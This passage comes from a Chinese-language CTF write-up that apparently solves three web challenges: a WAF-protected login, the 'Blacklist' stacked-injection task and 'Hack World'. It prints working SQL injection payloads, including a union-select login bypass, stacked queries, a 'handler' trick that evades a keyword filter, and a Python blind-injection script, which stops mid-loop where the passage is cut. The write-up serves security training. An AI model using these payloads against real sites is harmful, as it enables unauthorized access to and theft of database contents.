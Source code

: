 页面源码提示：select * from user where username = '$name'；这说了跟没说一样，没告诉waf是啥

大写绕过

```
1'Order by 3%23	# 有3列
1'union select 1,2,3%23	# wrong user!
1'union select 1,'admin',3%23	# wrong pass! 说明用户名在第二列
```

我们采用的方式是联合查询 创建一行临时的新数据，以这个临时数据登入

```
name=1'union select 1,'admin','202cb962ac59075b964b07152d234b70'#&pw=123
```

flag{a544cd1d-4676-41d2-8110-837020cf11e5}

{{% /spoiler %}}

{{% spoiler "[GYCTF2020]Blacklist  |  sqli 堆叠注入 handler" %}}

跟qwb的随便注非常像，拿payload来试试

```
1';show tables;
1';show columns from `FlagHere`;
1';show columns from `words`;
```

```
1';Set @xx=concat('se','lect * from `FlagHere`;');Prepare x from @xx;execute x;
```

回显过滤条件

```
return preg_match("/set|prepare|alter|rename|select|update|delete|drop|insert|where|\./i",$inject);
```

用`handler on`代替`select`

```
1'; handler FlagHere open as amiz; handler amiz read first; handler amiz close;#
```

`handler...open`打开一个表，使其后续可以使用`handler...read`访问，并且在该会话`handler...close`或终止前不会关闭

flag{9ba3c903-1a8c-4a40-b32a-f9752251269c}

{{% /spoiler %}}

{{% spoiler "[CISCN2019 华北赛区 Day2 Web1]Hack World  |  sqli 联合查询 盲注" %}}

长得跟前面的随便注和Blacklist很像，直接给出了flag在flag表flag列

拿fuzz字典过一遍，过滤了and or  union order group information，盲注py脚本走起，上二分

```
import requests

url = 'http://e59ccad4-7152-44b6-ab8f-c632bb29ac31.node4.buuoj.cn:81/index.php'
target = 'glzjin'
content = ''

for i in range(1, 40):
    left = 32
    right = 127
    mid = (left + right) // 2
    while right > left:
        payload = f"if(ascii(substr((select(flag)from(flag)),{i},1))>{mid},1,2)"
        data = {"id":payload}
        response = requests.post(url, data)
        if target in response.text:
            left = mid + 1
        else:
```